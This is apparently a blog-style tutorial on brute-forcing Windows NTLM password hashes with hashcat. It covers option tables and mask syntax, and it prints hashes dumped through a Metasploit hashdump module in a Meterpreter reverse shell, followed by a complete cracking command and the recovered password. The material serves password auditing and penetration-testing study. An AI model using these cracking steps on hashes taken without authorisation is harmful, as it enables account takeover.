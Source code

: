 ```yaml
---
layout: post
title: Hashcat NTLM Hash Brute Force Notes
---
```


## Abstact
Notes on brute-force Windows NTLM Hash with hashcat on a Windows/Linux machine with decent graphics card/cards.

## Environment
* Latest graphics card driver installed;
* A text file `hash.txt` of all the NTLM hash like this `aad3b435b51404eeaad3b435b51404ee', one for each line.

## Benchmark
Just grab the latest copy of hashcat from [here](https://hashcat.net/hashcat/), extract it and you are good to go.

Then, copy the text file of the NTLM hash to the root of the hashcat directory.

Run
```
hashcat64.bin(on Linux) -b
hashcat64.exe(on Windows) -b
```
to simply run a benchmark, and to also make sure that the graphics card driver are properly recognized.

## Brute-Force
### Options
Some of the most commonly used options are as follows:

Options Short, Long | Type | Description | Example
--- | --- | --- | ---
-m, --hash-type | Num | Hash-type, see references below | -m 1000
-a, --attack-mode | Num | Attack-mode, see references below | -a 3
-b, --benchmark | | Run benchmark |
-O, --optimized-kernel-enable | | Enable optimized kernels (limits password length) |
-w, --workload-profile | Num | Enable a specific workload profile, see pool below | -w 3
-1, --custom-charset1 | CS | User-defined charset ?1 | -1 ?l?d?u
-2, --custom-charset2 | CS | User-defined charset ?2 | -2 ?l?d?s
-i, --increment | | Enable mask increment mode |
--increment-min | Num | Start mask incrementing at X | --increment-min=4
--increment-max | Num | Stop mask incrementing at X | --increment-max=8

`-m` specifies the hash mode, i.e., LM(3000), NTLM(1000), MD5(0), SHA1(100);

`-a` is for the attack mode, they are

Num | Mode
--- | ---
0 | Straight
1 | Combination
3 | Brute-force
6 | Hybrid Wordlist + Mask
7 | Hybrid Mask + Wordlist

we will use `3` Brute-force in our case;

`-w` sets the workload profile

Num | Performance | Runtime | Power Consumption | Desktop Impact
--- | --- | --- | --- | ---
1 | Low         |   2 ms  | Low               | Minimal
2 | Default     |  12 ms  | Economic          | Noticeable
3 | High        |  96 ms  | High              | Unresponsive
4 | Nightmare   | 480 ms  | Insane            | Headless

You may choose the Nightmare mode if on a dedicated machine;

`-1/2/3` creates customized charsets which can be used later in the password mask

Hashcat has the following built-in charsets:

? | Charset
--- | ---
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
h | 0123456789abcdef
H | 0123456789ABCDEF
s |  !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff

you may use these charsets in your password mask directly.

I.E. for numeric, 6 character long password NTLM hash: 
```
.\hashcat64.exe -m 1000 -a 3 hash.txt ?d?d?d?d?d?d
```
As you can see, in brute-fore mode, the string `?d?d?d?d?d?d` is the mask, 

the charset of each position can be designated with a `?` followed by its charset.

`?d?d?d?d?d?d` means that hashcat should try every possible numeric strings of length 6.

You can change the charset of any position to reduce the overall complexity. 

For a complex password consisting of both lowercase, numbers and special characters,

you can use
```
-1 ?l?d?s
```
for convenience.

That is
```
.\hashcat64.exe -m 1000 -a 3 hash.txt -1 ?l?d?s ?1?1?1?1?1?1
```
if the password is still 6 characters long.

`-i` enables mask increment mode, for example
```
.\hashcat64.exe -m 1000 -a 3 hash.txt ?d?d?d?d?d?d
```
only tries combinations that are 6 characters long.

With `-i` set, hashcat will start from 1 character to 6 characters.

You can also set the minimum length with `--increment-min=[length]` and the maxmum length with `--increment-max=[length]`.

### Attack
In our case, the NTLM hash is obtained with the metasploit framework module `post/windows/gather/hashdump` 
executed in a meterpreter reverse shell.
```
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY []...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[username]:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```

Columns are separated by colon `:`, the 3rd one is LM(LAN Manager) hash, which has been deprecated since Windows Vista.

The 4th one `0b82e1dace77e29dd1de00896ba1c5bc` is the NTLM(NT LAN Manager) hash used by modern Windows operating systems,

and that is exactly what we are trying to brute-force here.

First create the `hash.txt` file
```
echo "0b82e1dace77e29dd1de00896ba1c5bc" > hash.txt
```
As we have no idea how long the password is, nor what characters may have been used, 

we make an assumption that the length is between 5 and 9 , and only lowercase and numbers are used.

Use the custom charset
```
-1 ?l?d
```

This should word for most non tech-savvy people.

Then run
```
./hashcat64.bin -m 1000 -a 3 -w 3 -O hash.txt -1 ?l?d ?1?1?1?1?1?1?1?1?1 -i --increment-min=5
```

Finally we will get the result `qqqqqq`.

This should be pretty quick if your graphics cards have enough horse power.

## Reference

* [https://www.4armed.com/blog/perform-mask-attack-hashcat/](https://www.4armed.com/blog/perform-mask-attack-hashcat/)
